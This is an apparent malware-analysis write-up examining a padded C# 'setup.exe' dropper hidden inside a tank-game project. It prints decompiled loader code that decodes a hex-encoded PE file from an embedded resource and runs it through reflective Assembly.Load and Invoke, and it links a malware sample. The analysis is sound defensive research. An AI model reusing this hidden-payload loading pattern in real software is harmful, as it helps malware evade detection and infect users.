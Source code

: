 Originally, the file was quite large, nearly 800MB. Guessing that null bytes had been added by the threat actor to attempt to avoid AV scans, I used the `readpe` tool to find the size of the file and trimmed it down to a more manageable 958KB. This trimmed binary can be found on [Malshare](https://malshare.com/sample.php?action=detail&hash=6e526899044545306d18de56b05f14112a20f0ab61def710c139ffba45292bbe
).  

`setup.exe` is written in C# using the .NET framework, and on opening it in dnSpy, I had a few initial observations.  

Firstly, there was no attempt at obfuscation whatsoever. Secondly, a majority of the code seemed to be benign and referencing a tank battle game, probably ripped from another legitimate project to assist avoiding detection. However, there were several sections which were obviously malicious. 

Following the execution flow, I'll outline my findings starting with the constructor of the `Form1` class.

```C#
Form1.Seksy = new string[]
{
	"54784365",
	"737775",
	"TankBattle"
};
```

This in of itself is not malicious, but is used later on. Execution then moves to `Form1.InitializeComponent()`, where the remainder of the malicious code is added at random into the method. Most of the method is benign, so I will share only the malicious components.

```C#
ResourceManager resourceManager = new ResourceManager(typeof(Form2));
string text = (string)resourceManager.GetObject("String1");
text = text.Replace("~", "00-");
string[] array = text.Split(new char[]
{
	'-'
});
byte[] array2 = new byte[array.Length];
for (int i = 0; i < array.Length; i++)
{
	array2[i] = (byte)Convert.ToUInt32(array[i], 16);
}

Assembly assembly = Assembly.Load(array2);
string[] seksy = Form1.Seksy;
MethodInfo methodInfo = assembly.GetExportedTypes()[1].GetMethods()[1];
MethodBase methodBase = methodInfo;
object obj = 0;
object[] parameters = seksy;
methodBase.Invoke(obj, parameters);
```

The first several lines extract a PE file from a resource embedded in `setup.exe`. The resource is called `String1` and is in the format `4D-5A-90-~03-~~~04-~~~FF-FF-~~B8-~~~~~~~40-~~~~~~~~~~~~~80-~~~0E-1F-`. 
